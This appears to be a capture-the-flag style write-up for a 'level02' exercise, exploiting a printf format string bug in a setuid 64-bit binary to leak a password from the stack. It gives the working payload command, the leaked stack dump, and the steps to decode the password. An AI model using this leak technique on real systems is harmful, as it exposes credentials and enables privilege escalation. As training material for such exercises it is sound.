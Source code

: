 # level02

```sh
$> file -b level02 
setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

We know that the `buffer` is in the stack and is filled with the password we want.  
We can see that `printf` is vulnerable to a format string vulnerability.  
Thus we can print the stack to find the password.  
A small thing to have in mind is that the executable is a 64-bit ELF file, so we need to use `%lx` to print addresses.

```sh
$> python -c 'print("%p "*27); print("")' | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil)  does not have access!
```

We can see that there's 40 bytes of informations at the end :

```
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d
```

We have to reverse the endianness of the hexadecimal numbers to get the password.

```
4868373452506E75 51397361354A4145 58674E5743717A37 7358476E68354A35 4D394B6650673348
```

And translate them to ascii :

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
